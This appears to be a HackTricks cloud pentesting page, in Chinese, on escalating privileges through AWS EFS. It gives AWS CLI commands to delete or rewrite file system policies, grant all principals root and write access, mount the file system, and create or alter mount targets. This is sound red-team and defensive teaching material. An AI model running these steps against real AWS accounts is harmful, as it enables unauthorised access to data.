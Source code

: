 # AWS - EFS提权

{% hint style="success" %}
学习并练习AWS黑客技术：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并练习GCP黑客技术：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 检查[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享黑客技巧。**

</details>
{% endhint %}

## EFS

有关EFS的更多**信息**请查看：

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

请记住，要挂载EFS，您需要位于EFS暴露的子网络中并具有访问权限（安全组）。如果是这样，通常情况下您将始终能够挂载它，但是，如果它受IAM策略保护，您需要具有此处提到的额外权限才能访问它。

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

拥有这些权限之一，攻击者可以**更改文件系统策略**以**授予您访问权限**，或者只是**删除**它以便授予**默认访问权限**。

要删除策略：
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
要更改它：
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

具有此权限，攻击者将能够**挂载EFS**。如果未将写入权限默认授予所有可以挂载EFS的人，则他将只具有**读取访问权限**。
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
额外权限`elasticfilesystem:ClientRootAccess`和`elasticfilesystem:ClientWrite`可用于在文件系统挂载后**写入**文件系统并**以root身份访问**该文件系统。

**潜在影响：** 通过在文件系统中定位敏感信息进行间接权限提升。

### `elasticfilesystem:CreateMountTarget`

如果攻击者位于**没有 EFS 挂载目标**的**子网络**中，他可以使用此权限在自己的子网中**创建一个挂载目标**：
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**潜在影响:** 通过在文件系统中定位敏感信息来进行间接权限提升。

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

在某种情况下，攻击者发现EFS在他的子网络中有挂载目标，但**没有安全组允许流量通过**，他可以通过**修改所选的安全组来改变这一情况**：
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**潜在影响:** 通过在文件系统中定位敏感信息进行间接权限提升。



{% hint style="success" %}
学习并实践AWS黑客技术：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并实践GCP黑客技术：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 检查[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享黑客技巧。

</details>
{% endhint %}
